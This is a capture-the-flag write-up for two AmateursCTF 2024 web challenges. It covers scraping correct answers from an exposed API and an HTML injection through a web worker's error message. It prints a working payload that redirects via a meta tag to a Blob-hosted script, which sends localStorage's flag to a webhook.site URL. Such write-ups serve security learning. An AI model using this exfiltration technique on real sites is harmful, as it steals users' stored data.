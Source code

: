 ```yaml
---
date: '2025-02-05T15:19:06+07:00'
draft: false
title: 'AmateursCTF 2024'
hideSummary: true
---
```

## TL;DR
This is a writeup for some web challenge for AmateursCTF 2024
## Lahoot
This is a very fun challenge, just for trolling.
By dirsearch, we will find a hidden endpoint which is /docs.
![img1](writeups/AmateursCTF2024/image1.png)

Wow, there is /api/question/{question_id}

And the id is in the HTML itself, in the attribute data-id

![img2](writeups/AmateursCTF2024/image2.png)

I plugged 1 question id in, and get this

![img3](writeups/AmateursCTF2024/image3.png)
Finally, we can use python script to automate all of these.

```python
import requests
import re
import urllib.parse


session = requests.Session()

url = 'http://lahoot-async.amt.rs/'
r = session.post(url + 'session', data={'username': 'testtesttest18'})
our_session = session.cookies.get('session')
r = session.get(url + 'question')
print(our_session)
id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
print(id)
r = requests.get(url + 'api/question/' + id)
ans = (r.json()["correctAnswer"])
for i in range(200):
    print(ans)
    r = session.post(url + 'question', data={'answer': ans})
    id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
    print(id)
    r = requests.get(url + 'api/question/' + id)
    ans = (r.json()["correctAnswer"])

```

## Busy-bee
### Analysis
After looking around in index.js, I found interesting function which can change HTML.
```javascript
const putLog = (msg) => {
  const p = document.createElement("p");
  p.setHTML(msg);
  log.appendChild(p);
};
```
This function is called in a lot of place, but most of them are safe data. But there is a place where untrusted data is passed in.
```javascript
...
} else if (e.data.type === "error") {
        putLog(e.data.msg);
        res();
      }
...
```
So we will have HTML injection.
### HTML INJECTION
So how could we get that e.data.type === "error"?
In worker.js, we have this
```javascript
const tickBee = (e) => {
  try {
    const action = beeFn(e.data.world, e.data.me);
    postMessage({ type: "action", action });
  } catch (err) {
    postMessage({
      type: "error",
      msg: `<span class="text-red-500">&gt; A bee has crashed! ${err.toString()}</span>`,
    });
  }
};
```
The function beeFn() must throw an error, and the error will be parsed directly in the msg.
```javascript
throw new Error("<b>Injected</b>");
```
![img4](writeups/AmateursCTF2024/image4.png)
### setHTML()
Can we inject script tag? Sadly no, anything XSS will be filtered by setHTML(). Is this a dead end?
### Blob
After the CTF ended, in discord, someone said that he solved this by using meta tag and Blob. Blob?
The Blob object represents a blob, which is a file-like object of immutable, raw data.
Combining with URL.createObjectURL(), we can “host a simple server”.

And blob URL doesn't have different origin. That's why we can access the window.localStorage.
So by using Blob, we can create a javascript script to make a fetch to our webhook, and retrieve the flag.

Luckily, meta tag isn't blocked at all, so we can use meta tag to redirect to our blob URL.

```html
<meta http-equiv="refresh" content="0;url=???">
```
Combine everthing, we have:
```javascript
const  htmlcontent = `<script>
    fetch('https://webhook.site/e6ac0f5c-05bb-4b0d-ad0b-0a5595a40691?c=' + window.localStorage.getItem('flag'), {
        method: 'GET',
        mode: 'no-cors'
    });
</script>`;
const blob = new Blob([htmlcontent], { type: 'text/html' });
const blobURL = URL.createObjectURL(blob);
throw new Error('<meta http-equiv="refresh" content="0; url='+blobURL+'">');
```
